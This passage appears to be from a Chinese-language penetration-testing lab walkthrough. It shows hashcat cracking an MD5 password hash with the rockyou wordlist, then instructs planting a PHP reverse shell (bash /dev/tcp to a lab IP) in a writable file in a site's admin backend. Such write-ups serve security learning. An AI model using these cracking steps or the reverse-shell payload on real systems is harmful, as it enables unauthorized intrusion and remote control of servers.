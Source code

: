    ATTENTION! Pure (unoptimized) backend kernels selected.
    Pure kernels can crack longer passwords, but drastically reduce performance.
    If you want to switch to optimized kernels, append -O to your commandline.
    See the above message to find out about the exact limits.
    
    Watchdog: Temperature abort trigger set to 90c
    
    Host memory required for this attack: 1 MB
    
    Dictionary cache built:
    * Filename..: /usr/share/wordlists/rockyou.txt
    * Passwords.: 14344392
    * Bytes.....: 139921507
    * Keyspace..: 14344385
    * Runtime...: 1 sec
    
    9d2f75377ac0ab991d40c91fd27e52fd:shannon                  
                                                              
    Session..........: hashcat
    Status...........: Cracked
    Hash.Mode........: 0 (MD5)
    Hash.Target......: 9d2f75377ac0ab991d40c91fd27e52fd
    Time.Started.....: Mon May 22 21:24:48 2023 (0 secs)
    Time.Estimated...: Mon May 22 21:24:48 2023 (0 secs)
    Kernel.Feature...: Pure Kernel
    Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
    Guess.Queue......: 1/1 (100.00%)
    Speed.#1.........:    40219 H/s (0.19ms) @ Accel:512 Loops:1 Thr:1 Vec:8
    Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
    Progress.........: 2048/14344385 (0.01%)
    Rejected.........: 0/2048 (0.00%)
    Restore.Point....: 0/14344385 (0.00%)
    Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
    Candidate.Engine.: Device Generator
    Candidates.#1....: 123456 -> lovers1
    Hardware.Mon.#1..: Util: 27%
    
    Started: Mon May 22 21:24:46 2023
    Stopped: Mon May 22 21:24:49 2023
    
    参数解释：
    			-m 0 指定md5进行破解
    			-a 0 使用普通模式
    ```

-   登陆后台查看是否有可写文件权限

-   ![image-20230523095436094](https://raw.githubusercontent.com/r0o983/images/main/image-20230523095436094.png)

-   找到任意可写文件，将反弹shell写入

-   >   <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.2.128/1234 0>&1'");?>

-   ![image-20230523100341530](https://raw.githubusercontent.com/r0o983/images/main/image-20230523100341530.png)
